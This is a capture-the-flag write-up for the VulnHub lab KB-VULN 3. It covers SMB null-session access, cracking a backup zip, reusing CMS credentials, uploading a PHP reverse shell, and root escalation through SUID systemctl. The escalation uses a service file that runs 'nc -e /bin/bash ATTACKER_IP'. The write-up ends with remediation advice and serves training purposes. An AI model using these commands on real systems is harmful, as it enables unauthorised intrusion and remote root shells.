





# KB-VULN: 3 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.10.167 (host-only) |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Root Flag** | root.txt (value in screenshot) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/kb-vuln-3,578/) |

## Attack Summary

nmap → SMB null session → Files share → password-protected zip backup → zip2john + john → SiteMagic CMS creds in config.xml.php → PHP webshell upload → reverse shell → systemctl SUID → custom .service unit file → root

## Methodology

1. Network discovery and port scan
2. SMB null session enumeration
3. Download and crack password-protected zip backup
4. Log in to SiteMagic CMS with config credentials
5. Upload PHP reverse shell through CMS content manager
6. Privilege escalation via SUID systemctl

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth0
nmap -A -p- 192.168.10.167
```

Add the IP to `/etc/hosts`. The web server returns 404. SMB ports are open.



---

## Step 2: SMB Enumeration

```bash
smbclient -L //192.168.10.167 -N
smbclient //192.168.10.167/Files -N
```

The `Files` share contains a password-protected zip archive (website backup). Download it:

```bash
get backup.zip
```



---

## Step 3: Crack Zip Password

```bash
zip2john backup.zip > pass-zip.hash
john --wordlist=/usr/share/wordlists/rockyou.txt pass-zip.hash
```

Extract the archive with the recovered password. It contains a SiteMagic CMS installation.

Review the config file:

```bash
cat config.xml.php
# CMS admin credentials are stored in plaintext
```



---

## Step 4: CMS Login + PHP Reverse Shell Upload

Log in to the SiteMagic CMS admin panel. Navigate to **Content → Upload**.

Prepare a PHP reverse shell (e.g., pentestmonkey's `php-reverse-shell.php`). The CMS allows uploading PHP files.

Start a listener:

```bash
nc -lvp 4444
```

Upload the shell and browse to its URL to trigger it.

Stabilize:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Read the user flag:

```bash
cat /home/heisenberg/user.txt
```



---

## Step 5: Privilege Escalation — SUID systemctl

Find SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
# systemctl is SUID
```

Create a malicious systemd unit file in `/dev/shm`:

```bash
cat > /dev/shm/root.service << 'EOF'
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'nc -e /bin/bash ATTACKER_IP 9999'

[Install]
WantedBy=multi-user.target
EOF
```

Start a listener on the attacker:

```bash
nc -lvp 9999
```

Load and start the service:

```bash
/bin/systemctl link /dev/shm/root.service
/bin/systemctl start root.service
```

Read the root flag:

```bash
cat /root/root.txt
```



---

## Lessons Learned

1. **SMB null sessions** exposing internal file shares are a critical misconfiguration — require authentication on all SMB shares
2. **Weak zip passwords** crackable with rockyou are insufficient protection for sensitive backups
3. **Credentials in CMS config files** included in backups — config files with credentials should be excluded from backups or encrypted
4. **SUID systemctl** allows creating arbitrary root-level services — systemctl should not be SUID; use sudo with specific unit whitelists instead

## Remediation

| Vulnerability | Fix |
|---|---|
| SMB null sessions | Configure `map to guest = never` in smb.conf; require authentication |
| Weak backup password | Use strong passphrases; encrypt with GPG instead |
| CMS config in backup | Exclude sensitive files from backups; use environment variables for secrets |
| SUID systemctl | Remove SUID bit: `chmod u-s /bin/systemctl` |
